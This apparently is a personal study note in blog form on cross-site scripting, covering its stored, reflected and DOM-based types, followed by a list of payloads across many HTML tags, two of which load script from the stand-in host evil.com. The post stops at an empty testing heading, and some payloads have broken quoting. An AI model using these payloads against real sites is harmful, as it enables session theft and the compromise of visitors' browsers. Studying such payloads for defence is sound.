 ```yaml
---
layout: post
title: "Cross Site Scripting (XSS) Vulnerabilities"
date: 2023-09-09
image: ../../assets/img/Posts/xss2.png
categories: [HackTheBox, Starting_Point]
tags: [docker, trilium, notes, ubuntu, self-hosted]
---
```




# CROSS SITE SCRIPTING (XSS) VULNERABILITY

	- IS A CLIENT-SIDE CODE INJECTION ATTACK
	- EXECUTES MALICIOUS SCRIPTS IN A WEB BROWSER
	- ACTUAL ATTACK OCCURS WHEN VICTIM VISITS D WEB PAGE THAT EXECUTE MALICIOUS CODE

## CAUSES OF XSS
	- UNSANITIZED USER INPUT
	- XSS ARE POSSIBLE IN VBSCRIPT, ACTIVEX, AND EVEN CSS. BUT MOST COMMON IS JAVASCRIPT AS IT IS THE FUNDAMENTAL TO BROWSING EXPERIENCE.

## TYPES OF XSS
	- SELF XSS
	- STORED XSS (MOST DAMAGING)
		An attacker uses Stored XSS to inject malicious content (referred to as the payload), most often JavaScript code, into the target application. If there is no input validation, this malicious code is permanently stored (persisted) by the target application, for example within a database. For example, an attacker may enter a malicious script into a user input field such as a blog comment field or in a forum post.
		When a victim opens the affected web page in a browser, the XSS attack payload is served to the victim’s browser as part of the HTML code (just like a legitimate comment would). This means that victims will end up executing the malicious script once the page is viewed in their browser.

	- REFLECTED XSS (2ND MOST DAMAGING)
		the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server. The reflected XSS payload is then executed in the user’s browser.
		Reflected XSS is not a persistent attack, so the attacker needs to deliver the payload to each victim. These attacks are often made using social networks.

	- DOM-BASED XSS (STANDARD)
		A DOM-based XSS attack is often a client-side attack and the malicious payload is never sent to the server. This makes it even more difficult to detect for Web Application Firewalls (WAFs) and security engineers who analyze server logs because they will never even see the attack. DOM objects that are most often manipulated include the URL (document.URL), the anchor part of the URL (location.hash), and the Referrer (document.referrer).


# XSS ATTACK VECTORS
	- `<script>` TAG
	```bash
		 <!-- External script -->
		 <script src=http://evil.com/xss.js></script>
		 <!-- Embedded script -->
		 <script> alert("XSS"); </script>
	```

	- `jAVASCRIPT EVENTS [onload and onerror]`
	```bash
		 <body onload=alert=("XSS")>
	```

	- `<body> tag`
	```bash
		<body background="javascript:alert("XSS")">
	```

	- `<img> tag`
	```bash
		<!-- <img> tag XSS -->
		<img src="javascript:alert("XSS");">
		<img """><script>alert("XSS")</script>"\>
		<!--  tag XSS using lesser-known attributes -->
		<img dynsrc="javascript:alert('XSS')">
		<img lowsrc="javascript:alert('XSS')">
	```

	- `<table> tag`
	```bash
		<!-- <table> tag XSS -->
		<table background="javascript:alert('XSS')">
		<!-- <td> tag XSS -->
		<td background="javascript:alert('XSS')">
	```
	- `<iframe> tag`
	```bash
		<!-- <iframe> tag XSS -->
		<iframe src="http://evil.com/xss.html">
	```

	- `<input> tag`
	```bash
		<!-- <input> tag XSS -->
		<input type="image" src="javascript:alert('XSS');">
	```

	- `<link> tag`
	```bash
		<!-- <link> tag XSS -->
		<link rel="stylesheet" href="javascript:alert('XSS');">
	```

	- `<div> tag`
	```bash
		<!-- <div> tag XSS -->
		<div style="background-image: url(javascript:alert('XSS'))">
		<!-- <div> tag XSS -->
		<div style="width: expression(alert('XSS'));">
	```

	> ETC....

## Testing for XSS Vulnerabilities

